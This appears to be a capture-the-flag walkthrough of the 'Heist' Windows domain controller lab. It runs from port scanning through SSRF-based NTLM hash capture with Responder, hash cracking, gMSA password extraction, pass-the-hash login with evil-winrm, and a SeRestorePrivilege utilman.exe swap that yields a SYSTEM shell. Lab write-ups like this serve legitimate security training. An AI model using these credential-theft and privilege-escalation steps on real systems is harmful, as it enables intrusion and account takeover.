










Heist/Windows

# NMAP

```sh
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-26 10:01:14Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
|_ssl-date: 2024-02-26T10:02:48+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HEIST
|   NetBIOS_Domain_Name: HEIST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: heist.offsec
|   DNS_Computer_Name: DC01.heist.offsec
|   DNS_Tree_Name: heist.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-26T10:02:08+00:00
| ssl-cert: Subject: commonName=DC01.heist.offsec
| Issuer: commonName=DC01.heist.offsec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-14T05:10:15
| Not valid after:  2024-05-15T05:10:15
| MD5:   fae5:a7f1:fe22:ff3c:da5b:c81f:9449:b9fd
| SHA-1: 6138:d9f2:5698:2db8:5a04:8a7e:1e43:9ad2:59f9:ea13
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQWUK2YmeTdJVLRjPTkjmZsjANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmhlaXN0Lm9mZnNlYzAeFw0yMzExMTQwNTEwMTVaFw0y
| NDA1MTUwNTEwMTVaMBwxGjAYBgNVBAMTEURDMDEuaGVpc3Qub2Zmc2VjMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6XxHzjX1WUFXzh45E1esZAmvGpl6
| zLcIpC/zNjLqt6h4F9TM8FbX4LnRs7ussI0nEvtHYGzI7s0dLdq5vETxbgeT/wZe
| S+KUVpRiOxrAO++4ZxrBKXeY3Rri6OTsY1Oz7MRXBgWf4E7TQ5XpeyY+czBHTY1L
| rjU6vSYtL4jD5b7yJixvisDg5WVwPuLVTFOn+4vAaO9SBt4OWZ5FECjw6GZX4szh
| vOQadcnEQCue5yzHi862hqenzb/yIy5mGgV+VeS85MxETJlaSAs72VKq0smBVG7o
| 8SjtrLkfT3zcYsR+U2AZ5JXu/skmyDYA12DbrbDjAfMuWYQAjAnij5+BYQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAEjVJ5eQGTxxzGXKvAcFoQpqKku1+yfE4f+jsRr9fzdmjNKWJeQJ
| sGzoFD3ankALgdZqN2PRfd6zjo5WyZ5iGIJ4GYrKGT+x3UhcrCcuYHiau2OTMj5P
| rSRJilnpIBjjgz1YEicHs/7xOTpUQHHcnPlo3+/XjYSrFX1gUPaP7SuaO7idMZY+
| xWg0MkCruzP63cidUnhQLcOJVyYwQnln9poD+7Z0POPyeKESeTtsspIVFhJhZQwe
| dqekuihBoJv9s9T4Sasj5DfBv6selLlEG4VqAXX7m5Wc/ngfsrGLaSoO6nVBvxkF
| PdTLbVVnyPzpjJModJebfHydc6mqDAvU/q8=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http          syn-ack Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-title: Super Secure Web Browser
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 47560/tcp): CLEAN (Timeout)
|   Check 2 (port 54736/tcp): CLEAN (Timeout)
|   Check 3 (port 34929/udp): CLEAN (Timeout)
|   Check 4 (port 36214/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2024-02-26T10:02:09
|_  start_date: N/A

```
We can see open port 88 which indicates a domain controller, this is confirmed by DNS name dc01.heist.offsec. 

Let's continue enumerating

# Port 8080
If we visit the site on port 8080 we can see a super secure browser. 


In the meanwhile we enumrate the server with nikto, whatweb and enumerate directories with ffuf
```
whatweb -a1 http://dc01.heist.offsec:8080 -v >> whatweb8080.txt 
nikto --url  http://dc01.heist.offsec:8080 --output nikto8080.txt
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://dc01.heist.offsec:8080/FUZZ -of all -o dirs8080  -c - -v --recursion --recursion-depth 6


```
Whatweb Summary   : Bootstrap[3.3.6], HTML5, HTTPServer[Werkzeug/2.0.1 Python/3.9.0], JQuery[2.2.2], Python[3.9.0], Script, Werkzeug[2.0.1]

To see the functionality of the website we start a webserver on or own machine and fill in the URL form. We get a callback on our server.



Maybe we can use this to steal NTLM-hashes.

We start Responder and request the same URL (smb and file:// did not work)



Bingo! we have a ntlm hash and username. Let's save this and continue enumerating.


# port 53:
Let's see if we can do a zonetransfer on the dns server
```sh
dnsrecon -t axfr -d heist.offsec -n  192.168.155.165
[*] Checking for Zone Transfer for heist.offsec name servers
[*] Resolving SOA Record
[+]      SOA dc01.heist.offsec 192.168.155.165
[*] Resolving NS Records
[*] NS Servers found:
[+]      NS dc01.heist.offsec 192.168.155.165
[*] Removing any duplicate NS server IP Addresses...
[*]  
[*] Trying NS server 192.168.155.165
[+] 192.168.155.165 Has port 53 TCP Open
[-] Zone Transfer Failed (Zone transfer error: REFUSED)

```
Only one entry which we already got from our nmap scan.

#port 139
To get additionanl information we use the command:
```sh
impacket-rpcdump dc01.heist.offsec
```
Here is a snippet of the output. 
```sh
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Retrieving endpoint list from dc01.heist.offsec
Protocol: [MS-RSP]: Remote Shutdown Protocol 
Provider: wininit.exe 
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0 
Bindings: 
          ncacn_ip_tcp:192.168.155.165[49664]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\DC01[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc088F20]

Protocol: N/A 
...
```

# Port 139/445
Now see what is going on with the smb shares and accounts on this system
```sh
enum4linux dc01.heist.offsec

Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Feb 26 18:20:11 2024

 =========================================( Target Information )=========================================
                                                                                                                                                                                             
Target ........... dc01.heist.offsec                                                                                                                                                         
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =========================( Enumerating Workgroup/Domain on dc01.heist.offsec )=========================
                                                                                                                                                                                             
                                                                                                                                                                                             
[E] Can't find workgroup/domain                                                                                                                                                              
                                                                                                                                                                                             
                                                                                                                                                                                             

 =============================( Nbtstat Information for dc01.heist.offsec )=============================
                                                                                                                                                                                             
Looking up status of 192.168.155.165                                                                                                                                                         
No reply from 192.168.155.165

 =================================( Session Check on dc01.heist.offsec )=================================
                                                                                                                                                                                             
                                                                                                                                                                                             
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.                                                                                               
                                                                                                     
```

After enumerating the ports we continue with the NTLM hash captured

## Cracking the hash

```sh
hashcat -m 5600 ntlmv2.txt rockyou.txt
```
Boom! We have a password.


Now let's see if we can log in to the machine! We have luck with evil-winrm



# Lateral Movement
## Enumeration
For AD enumaration we can use the tool `bloodhound-python`

```sh
sudo bloodhound-python -u 'enox@heist.offsec' -p '**********' -d 'heist.offsec' -c all -ns 192.168.155.165

```

We load the data in bloodhound for investiagtion. The ad user enox is part of the "WEB ADMINS" group and therefor we can possibly retrieve the password of the scv_apache account.




To abuse this configuration we can use the tool `GMSAPasswordReader.exe` (https://github.com/rvazarkar/GMSAPasswordReader). Upload the tool to the machine and execute:

```ps
.\GMSAPasswordReader.exe --accountname svc_apache
```

The accountname svc_apache is what we found earlier during the inverstiagtion of bloodhound.

Here we found the hashes:



With the current NTLM we can perform a PTH technique. 


Both enox and svc_apache$ are member of the local group "Remote Management Users".

Now we can login with evil-WinRm:

```sh 
evil-winrm -i 192.168.243.165 -u 'svc_apache$@heist.offsec' -H '<-----HASH--->>>'

```



## Privilege escaltion.
The privileges of our current user are:



If we continue our enumeration we find a file called `Enable-SeRestorePrivilege.ps1` in the Documents folder of svc_apache$ 

To abuse this privilege (https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#serestoreprivilege):

1. Run the .\EnableSeRestorePrivilege.ps1 script
2. Rename utilman.exe to utilman.old
3. Rename cmd.exe to utilman.exe



4. now start a remote desktop connection and a system cmd shell starts.


Now the system flag can be read:




